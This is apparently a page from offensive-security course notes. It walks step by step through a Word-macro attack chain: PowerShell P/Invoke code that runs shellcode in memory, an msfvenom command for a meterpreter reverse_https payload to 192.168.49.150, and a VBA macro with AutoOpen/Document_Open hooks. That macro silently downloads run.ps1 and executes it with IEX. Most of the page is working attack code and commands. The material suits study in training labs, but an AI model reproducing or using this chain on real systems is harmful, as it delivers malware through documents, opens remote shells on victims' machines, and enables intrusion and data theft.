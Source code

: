 ## Building our Shellcode

We can now start building our shellcode same as before in the section [Creating Our Shellcode](../../02.Document%20memory/Creating%20Our%20Shellcode.md), we use 3 Win32 APIs that are:
- VirtualAlloc
- RtlMoveMemory(In powershell we'll use copy method in _System.Runtime.InteropServices.Marshal_ namespace)
- CreateThread

First off, we use pinvoke to translate the arguments of VirtualAlloc and CreatThread

```Powershell
$Kernel32 = @"
using System;
using System.Runtime.InteropServices;

public class Kernel32 {
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
    [DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
}
"@

Add-Type $Kernel32
```

Next, we build our shellcode:
```msfvenom
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.49.150 LPORT=443 EXITFUNC=thread -f ps1 -o memory_shellcode_powershell.ps1
```

We can now add our shell code to a variable called $buf.
Create another variable called $size that is the size of our $buf variable
And finally, call our functions.
```Powershell
[Byte[]] $buf = 0xfc,0xe8,0x82,0x0,0x0,0x0,0x60...

$size = $buf.Length

[IntPtr]$addr = [Kernel32]::VirtualAlloc(0,$size,0x3000,0x40);

[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $size)

$thandle=[Kernel32]::CreateThread(0,0,$addr,0,0,0);
```
The arguments have already been explained in the [Creating Our Shellcode](../../02.Document%20memory/Creating%20Our%20Shellcode.md) section.

Our final code will look something like so:
```Powershell
$Kernel32 = @"
using System;
using System.Runtime.InteropServices;

public class Kernel32 {
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
    [DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
}
"@

Add-Type $Kernel32

[Byte[]] $buf = 0xfc,0xe8.....0x0,0x53,0xff,0xd5

$size = $buf.Length

[IntPtr]$addr = [Kernel32]::VirtualAlloc(0,$size,0x3000,0x40);

[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $size)

$thandle=[Kernel32]::CreateThread(0,0,$addr,0,0,0);
```

This may get us a shell, but we need to trigger this from a word macro.
For this, we'll create a cradle that will download our code into memory and execute it.

The code for the cradle will look as follows:
```VBA
Sub MyMacro()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadString('http://192.168.49.150/run.ps1') | IEX"
    Shell str, vbHide
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub
```

However, we're still not completely finished yet.
Essentially, with our current code, the powershell will terminate before it even starts, this is because our shell dies as soon as the parent Powershell proccess terminates.

To solve this, we will instruct Powershell to delay it's terminatin until the shell fully executes.
For this, we can use Win32 WaitSingleObject API to pause the script and allow meterpreter to finish.
We will now proceed to update our script using P/Invoke and invoke the declared function:

```Powershell
$Kernel32 = @"
using System;
using System.Runtime.InteropServices;

public class Kernel32 {
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
    
	[DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
	
	[DllImport("kernel32.dll", SetLastError=true)] 
	public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

}
"@

Add-Type $Kernel32

[Byte[]] $buf = 0xfc,0xe8.....0x0,0x53,0xff,0xd5

$size = $buf.Length

[IntPtr]$addr = [Kernel32]::VirtualAlloc(0,$size,0x3000,0x40);

[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $size)

$thandle=[Kernel32]::CreateThread(0,0,$addr,0,0,0);

[Kernel32]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```

With this, we have successfully created a shellcode in memory using Powershell:
![ps-in-mem-proof](../../../../../Screenshots/ps-in-mem-proof.png)
